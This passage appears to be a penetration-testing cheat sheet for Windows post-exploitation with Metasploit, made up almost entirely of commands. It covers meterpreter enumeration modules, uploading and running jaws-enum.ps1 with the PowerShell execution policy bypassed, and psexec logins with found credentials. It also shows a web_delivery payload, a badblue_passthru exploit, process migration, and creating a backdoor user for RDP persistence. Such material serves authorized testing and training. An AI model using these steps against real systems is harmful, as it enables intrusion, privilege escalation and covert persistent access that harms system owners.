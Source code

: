 ##### Automated

```bash
# get a meterpreter shell...
m> show_mount
> use post windows/gather/win_privs
> use post/windows/gather/enum_logged_on_users
> use post/windows/gather/checkvm
> use post/windows/gather/enum_applications
> use post/windows/gather/enum_computers
> use post/windows/gather/enum_patches
> use post/windows/gather/enum_shares
```

```bash
# clone the jaws-enum.ps1 first
m> cd C:\\
m> mkdir Temp
m> cd Temp
m> upload jaws-enum.ps1
m> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws-enum.txt
m> dowload jaws-enum.txt
```

#### Privilege Escalation

```bash
# when you find credentials
# connect using python psexec
$ psexec.py <user>@<ip>
>whoami
>whoami /priv
# or connect using msf module
> use exploit/windows/smb/psexec
m>
```

```bash
> use exploit/multi/script/web_delivery
m> shell
> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

#### Persistence

##### RDP

```bash
> use exploit/windows/http/badblue_passthru
m> pgrep explorer
m> migrate <pid>
# create backdoor user
m> run getgui -e -u <username> -p <password>
# connect to it via rdp
xfreerdp /u:<username> /p:<password> /v:<ip>
```

